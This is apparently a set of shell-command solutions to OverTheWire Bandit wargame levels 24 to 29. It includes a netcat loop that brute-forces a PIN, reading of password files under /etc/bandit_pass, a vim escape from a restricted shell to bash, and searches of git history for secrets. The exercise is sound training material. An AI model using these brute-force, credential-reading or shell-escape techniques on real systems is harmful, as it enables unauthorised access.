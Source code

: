 # bandit24
```bash
bandit24@bandit:~$ for i in $(seq -f "%04g" 0 9999); do echo "$(cat /etc/bandit_pass/bandit24) $i"; done | nc localhost 30002
```

# bandit25 + bandit26
```bash
cat /etc/passwd | grep bandit26
cat /usr/bin/showtext
(resize terminal window to be really small)
ssh -i bandit26.sshkey bandit26@localhost
v (vim)
:r /etc/bandit_pass/bandit26
:set shell=/bin/bash
:shell
./bandit27-do cat /etc/bandit_pass/bandit27
```

# bandit27
```bash
cd /tmp/bandito
git clone ssh://bandit27-git@localhost/home/bandit27-git/repo
cat repo/README
cd .. && rm -rf repo
```

# bandit28
```bash
cd /tmp/bandito
git clone ssh://bandit28-git@localhost/home/bandit28-git/repo
cd repo
git checkout 186a103
cat README.md
cd .. && rm -rf repo
```

# bandit29
```bash
cd /tmp/bandito
git clone ssh://bandit29-git@localhost/home/bandit29-git/repo
cd repo
git show-branch --all
git checkout dev
cat README.md
cd .. && rm -rf repo
```
